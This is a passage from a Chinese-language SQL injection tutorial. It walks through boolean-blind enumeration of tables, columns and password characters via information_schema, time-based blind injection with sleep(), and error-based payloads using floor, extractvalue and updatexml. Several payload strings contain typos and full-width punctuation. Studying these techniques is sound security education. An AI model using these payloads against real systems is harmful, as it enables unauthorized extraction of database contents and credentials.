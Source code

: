 **分析**：从`information_schema`的`tables`表中的`table_schema`字段等于`database()`的所有记录中取出第一行记录的 `table_name`字段的值；
然后利用取出的这个值使用`substr（）`函数分别得到表名的每个字符，然后再通过`ascii（）`去计算这个ascii码，由于我们看不见这个ascii码是多少，由于我们能够知道布尔结果，所以就用这个计算出的ascii码去和一个数进行比较，从而可以判断出具体的ascii码是多少，也就知道了对应的字符是什么。从而猜解出数据库的表名

### 获取列名个数，列名长度，列名

得到数据库的表名过后，那下一步我们就想获得对应表名的列名，也就是字段名字，那么这个时候我们就需要到`information_schema`数据库里的`columns`表里面去查询所有的表的列名相关的信息，那么获取列名的步骤也和前面的原理一样，先猜解列名的个数，获取列名的长度，然后通过获得的长度再去猜解列名

**构造的sql语句**：

```sql
1’ and （select count（*）from information_schema.columns where table_name=‘user’）>5#
```

**构造的sql语句**：

```sql
1’ and （select length（column_name）from information_schema.columns where table_name=‘user’ limit 0,1）>5#
```

**构造的sql语句**：

```sql
1’ and (ascii（substr（(seclect columns_name from information_schema.columns where table_name='user' limit 0,1),1,1））)>100#
```

### 获取数据

获取数据，原理同前面一样
**构造的sql语句**：

```sql
1‘ and (ascii(substr(( select password from users limit 0,1),1,1)))=68#
```

### 基于时间盲注的要点

通过对上面的分析，我认为使用基于时间的盲注的时候，就可以将上面的构造的sql语句进行这样的变化，如下：

```lisp
and if((length(database())>5),sleep(5),0)
```

其实也就是通过`length(database())>5` 返回的布尔值，然后造成时间上的延迟来判断结果，如果数据名的长度`大于5`是成立的，那么`sleep（5）`这个函数就会起作用，能够让我们感觉到返回一个页面的时间上发生了变化，通过这个变化我们就能知道我们的判断对不对。

## 基于报错的SQL注入

可以看一下这个[十种MySQL报错注入](https://www.cnblogs.com/wocalieshenmegui/p/5917967.html)
以下介绍其中三种报错注入方法

```sql
#报错注入floor
(select 1 from (select count(*),concat((payload[]),floor(rand()*2))a from information_schema.columns group by a)b)limit 0,1
#报错注入extractvalue
select extractvalue(1,concat(0x5c,([payload])))
#报错注入updatexml
select 1=(updatexml(1,concat(0x3a,([payload])),1))
```
